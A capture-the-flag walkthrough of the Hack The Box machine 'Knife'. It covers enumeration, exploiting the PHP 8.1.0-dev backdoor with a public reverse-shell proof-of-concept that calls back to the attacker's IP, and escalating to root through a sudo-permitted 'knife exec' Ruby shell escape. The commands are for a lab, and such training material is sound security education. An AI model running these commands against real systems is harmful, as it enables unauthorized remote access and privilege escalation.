









# Knife

# Enumeration

## Nmap

I start with a simple nmap scan. This system is running an Apache web server on port 8- and OpenSSH over port 22. 



Most of these boxes run ssh over port 22 to allow users to ssh into the box once they obtain initial access, in order to provide a more stable shell. Because of this, I will focus on the web server for now.

## Website

I navigate to the website which looks pretty simple, and none of the buttons have been configured to navigate anywhere.



I try adding `/index.php` to the end of the URL, and get the same page. This indicates to me that the website is PHP based. I’ll head to dirb to try and find some potential vectors.

## Dirb

The scan comes back with nothing new besides `/server-status` which doesn’t help.



With how little I have uncovered at this point, I begin to think this may be a vulnerability with a specific version. The SSH and Apache versions are not vulnerable, and the only other thing I know about this box is that the website runs PHP.

## PHP 8.1

I had neglected to check Wappalyzer when I initially enumerated the website, but looking at it now I find that the PHP is version 8.1.0. 



A quick google search reveals that this version of PHP is vulnerable to a backdoor which allows for remote code execution, just what I was looking for!

# Exploitation

## PHP 8.1 Backdoor

The first link I explore is a github POC for a [python script](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) which exploits the vulnerability to create a reverse shell. I’ll copy the script into a new python file named `rev.py` and give it the proper arguments to send a reverse shell. 

```bash
python3 rev.py http://knife.htb:80/ 10.10.14.2 1234
```

Before I send the payload, I start up a netcat listener on port 1234 to catch the shell. Once I send the payload, I get the shell back almost immediately!



It seems I have obtained access as a user named james.

## User Flag

Before I go any further, I navigate to the user’s home directory and grab the user flag.



# Privelege Escalation

## Sudo Commands

When trying to escalate priviledges on linux boxes, my first step is always running `sudo -l` to see what commands the user can run as sudo. We get lucky and it looks like this user can run knife as sudo!



## Knife

Since I am not familiar with knife, I’ll take a look at [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) and see what I can find. I find that knife has an exec command that executes Ruby code. From previous boxes I know that Ruby can be used to escalate priviledges as well with `sudo ruby -e 'exec "/bin/sh"’` . The code that is actually executed in that case is `exec "/bin/sh"` , so I should be able to do the same here.

```bash
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
```

Using knife to execute the Ruby code I am given a new shell. Running `whoami` reveals I have obtained root access!



## Root Flag

With root access I can grab the root flag from the root directory!


